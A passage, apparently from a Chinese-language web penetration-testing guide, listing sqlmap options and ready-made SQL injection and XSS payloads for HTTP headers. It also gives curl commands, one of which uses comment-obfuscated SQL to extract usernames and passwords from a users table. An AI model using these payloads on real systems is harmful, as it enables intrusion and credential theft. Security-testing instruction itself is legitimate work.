 - -p：要测试的参数  
  
- --dbms：目标数据库类型  
  
- --level：测试深度（1-5）  
  
- --risk：负载风险（1-3）  
  
- --banner：检索数据库横幅  
  
- --current-user：获取当前数据库用户  
  
- --current-db：获取当前数据库名称  
  
- --is-dba：检查当前用户是否为管理员  
  
- --threads：并发线程数  
  
- --batch：从不请求用户输入  
  
- --random-agent：使用随机 User-Agent  
  
### 第三步：全面的头部测试  
### SQLi 测试头部  
```
X-Forwarded-Host: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
Referer: https://example.com/'+(select*from(select(sleep(10)))a)+' 
Cookie: 'XOR(if(now()=sysdate(),sleep(10),0))XOR'
User-Agent: "XOR(if(now()=sysdate(),sleep(10),0))XOR"

```  
### XSS 测试头部  
```
X-Forwarded-Host: evil.com"\><img src=onerror=prompt(document.cookie)>
X-Forwarded-For: "\><script>alert(document.domain)</script>
Referer: "\><img src=x onerror=alert(1)>
User-Agent: "\><svg/onload=alert(1)>

```  
### 使用 cURL 进行测试  
```
# 基本 SQLi 测试
curl -X GET "http://target.example.com" \
  -H "X-Forwarded-Host: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z" \
  -H "User-Agent: Mozilla/5.0" \
  -H "Cookie: session=test" \
  -v

# 基于时间的测试
curl -X GET "http://target.example.com" \
  -H "X-Forwarded-For: '+(select*from(select(sleep(10)))a)+'" \
  -v

# 基于错误的测试
curl -X GET "http://target.example.com" \
  -H "Cookie: '+(select/\*!50000convert\*/(/\*!50000select\*/concat(username,0x3a,password)/\*!50000from\*/users/\*!50000where\*/id=1)+'" \
  -v

```  
## 记录和报告  
### 必要的记录元素  
1. **漏洞详情**  
  
